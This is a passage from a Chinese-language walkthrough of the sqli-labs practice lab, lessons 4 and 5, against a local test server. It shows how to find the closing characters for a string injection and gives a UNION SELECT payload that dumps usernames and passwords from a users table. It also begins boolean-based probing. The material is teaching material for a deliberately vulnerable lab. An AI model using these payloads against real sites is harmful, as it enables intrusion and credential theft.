 有正常的回显, 进一步验证了以上想法, 后续步骤与前面一致。

### lesson 4

同样输入 `id=1 and 1=1` 或 `id=1' and '1'='1'` 都能正常回显, 考虑到可能使用的是双引号: 输入 `id=1"` 产生报错:

![s4-1.png](s4-1.png)

说明同样需要 `)` 来闭合, 构造 payload:

```url
?id=1") --+
```

![s4-2.png](s4-2.png
此时可以正常回显了, 说明存在字符型注入, 用 `")` 闭合, 接下来同样构造 payload 即可:

```url
?id=-1") UNION SELECT 1,GROUP_CONCAT(username),GROUP_CONCAT(password) FROM users --+
```

![s4-3.png](s4-3.png)

### lesson 5

输入 `http://127.0.0.1/sqli/Less-5/?id=1` (正常查询)回显 `You are in...`, 而输入 `http://127.0.0.1/sqli/Less-5/?id=1'` (存在 SQL 语法错误的查询)报错, 尝试 `http://127.0.0.1/sqli/Less-5/?id=1' --+` (有查询结果的注入)回显正常, 说明注入为字符型, 尝试 `http://127.0.0.1/sqli/Less-5/?id=1' and 1=2--+` (查询结果为空的注入)无**任何回显**。

确认这一点后首先可以用 `order by` 语句发现列为 3。

![s5-1.png](s5-1.png)
